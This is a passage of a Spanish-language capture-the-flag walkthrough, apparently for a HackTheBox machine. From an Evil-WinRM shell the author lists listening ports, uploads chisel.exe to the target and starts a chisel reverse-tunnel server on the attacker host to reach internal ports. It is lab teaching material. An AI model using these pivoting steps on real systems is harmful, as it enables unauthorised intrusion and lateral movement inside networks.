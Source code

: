 ## Reverse Proxy with `chisel`
Encontramos varios puertos abiertos.
```console
*Evil-WinRM* PS C:\Program Files\ReportManagement> netstat -ano

Active Connections

  Proto  Local Address          Foreign Address        State           PID
  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:100            0.0.0.0:0              LISTENING       5316
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       912
  TCP    0.0.0.0:443            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:5040           0.0.0.0:0              LISTENING       5468
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:8080           0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       692
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       548
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       1076
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       1676
  TCP    0.0.0.0:49668          0.0.0.0:0              LISTENING       672
  TCP    10.129.196.198:139     0.0.0.0:0              LISTENING       4
  TCP    10.129.196.198:5985    10.10.14.104:35274     TIME_WAIT       0
  TCP    10.129.196.198:5985    10.10.14.104:40406     TIME_WAIT       0
  TCP    10.129.196.198:5985    10.10.14.104:52898     TIME_WAIT       0
  TCP    10.129.196.198:5985    10.10.14.104:52902     ESTABLISHED     4
  TCP    10.129.196.198:5985    10.10.14.104:57648     TIME_WAIT       0
  TCP    10.129.196.198:52610   10.10.14.104:443       ESTABLISHED     5396
```

Me llaman la atención varios puertos, así que con `chisel` vamos a hacer un Proxy Inverso para poder interactuar con estos puertos internos.

Con la función interna `upload` de `evil-winrm` podemos subir el `chisel.exe`.

```console
*Evil-WinRM* PS C:\ProgramData> upload ../content/chisel.exe
                                        
Info: Uploading /home/pointedsec/Desktop/appsanity/scan/../content/chisel.exe to C:\ProgramData\chisel.exe
                                        
Data: 12008104 bytes of 12008104 bytes copied
                                        
Info: Upload successful!
```

En nuestra máquina de atacante nos ponemos en escucha por el puerto 1234.
```console
$ /opt/chisel/chisel server --reverse -p 1234
2024/09/12 20:23:26 server: Reverse tunnelling enabled
2024/09/12 20:23:26 server: Fingerprint Yjkz8ovZI0npCqsGaxv/qqBTSfCJckb+wWqdaLxUHUQ=
2024/09/12 20:23:26 server: Listening on http://0.0.0.0:1234
```
